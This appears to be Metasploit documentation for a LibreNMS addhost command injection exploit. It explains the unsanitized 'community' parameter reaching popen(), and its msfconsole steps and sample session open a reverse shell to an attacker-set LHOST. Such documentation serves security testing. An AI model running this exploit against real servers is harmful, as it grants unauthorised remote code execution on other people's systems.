 ## Description
  
  In LibreNMS `v1.46` and below, there exists a command injection vulnerability in `capture.inc.php`.
  The vulnerable functionality is intended to run a command such as `snmpwalk` and save the output as
  a file. The `community` parameter is an unsanitized parameter retrieved through a POST request to `addhost`,
  and it is used to build the command that is executed in the `capture.inc.php` functionality. The final command
  is passed to the `popen()` function, which results in execution of arbitrary code.

  This module has been tested on LibreNMS `v1.46` and `v1.45`.

## Vulnerable Application

  A [pre-built OVA](https://github.com/librenms/packer-builds/releases/tag/1.46) can be downloaded via a LibreNMS repo.

  Additionally, vulnerable versions of LibreNMS for Ubuntu can be manually installed using the instructions [here](https://docs.librenms.org/Installation/Installation-Ubuntu-1804-Apache/).
  In the command `composer create-project --no-dev --keep-vcs librenms/librenms librenms dev-master`, replace `dev-master` with a vulnerable version of the software, ex: `1.46`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/librenms_addhost_cmd_inject```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on LibreNMS 1.46 on Ubuntu 18.04

  ```
  msf > use exploit/linux/http/librenms_addhost_cmd_inject
  msf exploit(linux/http/librenms_addhost_cmd_inject) > set rhosts 192.168.37.143
  rhosts => 192.168.37.143
  msf exploit(linux/http/librenms_addhost_cmd_inject) > set username blah
  username => blah
  msf exploit(linux/http/librenms_addhost_cmd_inject) > set password password
  password => password
  msf exploit(linux/http/librenms_addhost_cmd_inject) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(linux/http/librenms_addhost_cmd_inject) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Successfully logged into LibreNMS
  [+] Successfully added device with hostname dFEzcH
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [+] Successfully deleted device with hostname dFEzcH and id #126
  [*] Command: echo 38eJIFZsiRl3Er48;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n38eJIFZsiRl3Er48\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.143:55380) at 2019-05-29 15:26:02 -0500

  whoami
  www-data
  uname -a
  Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```
